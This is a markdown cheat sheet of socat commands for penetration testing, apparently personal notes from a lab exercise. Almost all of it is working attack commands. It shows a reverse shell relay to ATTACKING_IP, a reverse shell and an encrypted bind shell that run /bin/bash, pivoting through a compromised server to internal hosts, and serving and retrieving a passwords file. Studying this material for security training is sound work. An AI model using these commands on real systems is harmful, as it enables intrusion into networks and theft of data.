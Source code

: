 ### socat  

## Reverse Shell Relay  

After setting up a listener on the attacker machine e.g.  

`nc -lvnp 443`  

A reverse shell relay can be created on the compromised machine to pivot into a previous unreachable network.  

`./socat tcp-l:8000 tcp:ATTACKING_IP:443 &`  

## Port Forward  

Compromised server is 172.0.0.5:33060 and the target is 172.16.0.10:3306.

`./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &`

## Static Binaries.  


Static Linux binary.  

https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat  

Static Windows binary.  

https://sourceforge.net/projects/unix-utils/files/socat/1.7.3.2/socat-1.7.3.2-1-x86_64.zip/download  

## Connect.  

Connect to a server on port 80.  

`socat - TCP4:<REMOTE SERVER IP>:80`  

Set up a listener on port 443, sudo is required on ports below 1024.  

`sudo socat TCP4-LISTEN:443 STDOUT`  

## File Transfers.  

To set up a listener to share a file, fork creates a child process allowing multiple connections.  

`sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt`  

Retrieve the above file.  

`socat TCP4:<REMOTE IP ADDRESS>:443 file:received_secret_passwords.txt,create`  

## Reverse Shell.  

Set up a listener on 443.  

`socat -d -d TCP4-LISTEN:443 STDOUT`  

Connect back to above listener.  

`socat TCP4:<LISTENER IP>:443 EXEC:/bin/bash`  

## Encrypted Bind Shell.  

Use openssl to create a certificate.  

`openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt`  

Cat key and cert into a file.  

`cat bind_shell.key bind_shell.crt > bind_shell.pem`  

Set up a listener on 443, ssl verification is turned off.  

`sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash`  

Connect to listener, using '-' as STDIN and cert verification off.  

`socat - OPENSSL:<LISTENER IP>:443,verify=0`  

## Connect to a webserver through a port forward.  

On the attacking box.  

`socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &`  

On the compromised public facing server. This will connect back to me (10.50.106.14:8001) and to the internal webserver (10.200.105.150:80).  

`./G3N-socat tcp:10.50.106.14:8001 tcp:10.200.105.150:80,fork &`  

To access this on browser use localhost:8000 or 'curl 127.0.0.1:8000'.
